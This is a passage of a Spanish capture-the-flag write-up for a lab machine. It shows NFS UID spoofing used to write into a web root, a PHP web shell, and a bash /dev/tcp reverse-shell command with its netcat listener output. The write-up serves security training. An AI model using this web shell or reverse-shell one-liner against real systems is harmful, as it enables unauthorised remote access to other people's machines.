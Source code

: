 ```bash wrap=false
    39105      4 drwx------   3 1001     1001         4096 oct 21  2022 /mnt/nfs/ross_home/.gnupg
find: ‘/mnt/nfs/ross_home/.gnupg’: Permiso denegado
    39207      4 -rw-------   1 1001     1001           57 oct  6 23:01 /mnt/nfs/ross_home/.Xauthority
    39110      4 drwxr-xr-x   2 1001     1001         4096 oct 21  2022 /mnt/nfs/ross_home/Desktop
    39111      4 drwxr-xr-x   2 1001     1001         4096 oct 21  2022 /mnt/nfs/ross_home/Downloads
    39112      4 drwxr-xr-x   2 1001     1001         4096 oct 21  2022 /mnt/nfs/ross_home/Templates
```

## Explotación

Vemos que no tenemos permisos sobre `/www_html`, estaría bien poder acceder. NFS tiene un problema con la autorización de archivos ya que solo lee si coincide el **UID**, si nos cremos un usuario con UID igual a `2017` y intentamos listar los archivos con el, pasa lo siguiente:

```bash wrap=false
❯ sudo useradd -u 2017 dummy
❯ sudo su dummy -c bash
bash: no se puede establecer el grupo de proceso de terminal (708353): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
dummy@kali:/mnt/nfs$ ls -l /mnt/nfs/
total 8
drwxr-xr-x 14  1001     1001 4096 oct  6 23:01 ross_home
drwxr-xr--  5 dummy www-data 4096 oct  7 23:40 www_html
dummy@kali:/mnt/nfs$ cd www_html/
dummy@kali:/mnt/nfs/www_html$ ls
css  images  index.html  js
```

Si probamos a escribir un archivo php de prueba:

```bash wrap=false
dummy@kali:/mnt/nfs/www_html$ echo -e '<?php\n  echo "probando php";\n?>' > test.php
❯ curl 'http://10.10.11.191/test.php'
probando php
```

### Web shell

Vemos que se interpreta `PHP`, por lo que nos montaremos una **web shell**:

```bash wrap=false
dummy@kali:/mnt/nfs/www_html$ echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > shell.php
❯ curl 'http://10.10.11.191/shell.php?cmd=id'
uid=2017(alex) gid=2017(alex) groups=2017(alex)
```

Perfecto, nos entablaremos una `reverse shell`:

```bash wrap=false intitle="Lanzamos el ataque"
❯ curl 'http://10.10.11.191/shell.php?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.15/443+0>%261"'
❯ sudo nc -lvnp 443
[sudo] contraseña para zelpro: 
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.191] 59106
bash: cannot set terminal process group (1081): Inappropriate ioctl for device
bash: no job control in this shell
alex@squashed:/var/www/html$ whoami
alex
alex@squashed:/var/www/html$ cd /home  
alex@squashed:/home$ cd alex 
alex@squashed:/home/alex$ cat user.txt  
759a602f3c48396a9fb...
```
